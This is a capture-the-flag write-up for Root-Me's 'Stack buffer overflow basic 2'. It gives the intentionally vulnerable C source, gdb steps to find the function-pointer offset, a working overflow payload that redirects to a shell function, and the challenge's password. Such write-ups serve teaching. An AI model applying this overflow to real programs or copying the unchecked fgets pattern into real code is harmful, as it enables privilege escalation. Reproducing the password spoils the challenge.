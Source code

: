 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function and save the address of **shell (0x08048516)** <br>

![image](https://user-images.githubusercontent.com/48288606/146747232-e78b70c2-9af0-413a-a20d-2b39be64cf96.png)
 
- Set breakpoint at **fgets function**. Run the program
```
gdb-peda$ b*main+0
Breakpoint 1 at 0x8048584
```

-  Input `aaaaaaaa`and watch the value. 

![image](https://user-images.githubusercontent.com/48288606/146749346-4e182441-effa-4519-8d5a-09a2d4452c7a.png)

- Our input's at **0xbffffa9c**. Now watch the return address of **sup function**.

![image](https://user-images.githubusercontent.com/48288606/146752691-aa64fb0d-7b34-4ea0-ab63-1097ee23671f.png)


- **sup** is at **0xbffffb1c**. Calculate the distance from **buffer** to address of **sup function**.
```
gdb-peda$ p/d 0xbffffb1c-0xbffffa9c
$5 = 128
```

### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

